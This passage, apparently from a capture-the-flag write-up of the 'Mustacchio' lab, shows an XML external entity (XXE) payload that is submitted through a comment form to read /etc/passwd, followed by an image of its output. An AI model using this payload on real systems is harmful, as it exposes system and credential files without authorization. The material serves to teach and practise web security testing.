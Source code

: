 ![Mustacchio - Add Comment](Images/Mustacchio-XML.png)

### XXE 

- Try a basic `XXE` payload:

```html
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<comment>
  <name>&xxe;</name>
  <author>DS</author>
  <com>Hi</com>
</comment>
```

- The Output of the XXE:

![Mustacchio - XXE](Images/Mustacchio-XXE.png)
